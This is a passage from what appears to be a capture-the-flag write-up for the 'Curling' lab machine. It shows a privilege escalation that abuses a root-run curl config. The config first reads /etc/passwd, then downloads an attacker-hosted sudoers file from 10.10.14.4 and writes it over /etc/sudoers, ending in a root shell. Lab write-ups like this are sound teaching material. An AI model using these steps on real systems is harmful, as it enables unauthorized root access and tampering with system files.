floris@curling:/home/floris/admin-area$ echo -e 'url = "file:///etc/passwd"\noutput = "/home/floris/passwd"' > input
```

Then, let's wait for a few seconds and check if the file is created.

```bash
floris@curling:~$ ls -al /home/floris/passwd
-rw-r--r-- 1 root root 1617 Jan  3 06:08 /home/floris/passwd
floris@curling:~$ head /home/floris/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

It works! I can simply read root flag through it!

If I want to spawn a root shell, there's another way to do it.
Using the options(`url`, `output`) I can modify `/etc/sudoers` file.

First, let's prepare `my-sudoers` file to overwrite `/etc/sudoers`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat my-sudoers 
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL
```

Then, let's modify `input` file to read the `my-sudoers` file and overwrite it on `/etc/sudoers`.

```bash
floris@curling:~/admin-area$ echo -e 'url = "http://10.10.14.4:8000/my-sudoers"\noutput = "/etc/sudoers"' > input
```

After a few minutes, let's check if the user `floris` is `sudoable`.

```bash
floris@curling:~$ sudo -l
User floris may run the following commands on curling:
    (ALL : ALL) ALL
```

It works! The user `floris` can do `sudo` with all commands.

```bash
floris@curling:~$ sudo su -
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
root@curling:~# whoami
root
```

I got a root shell!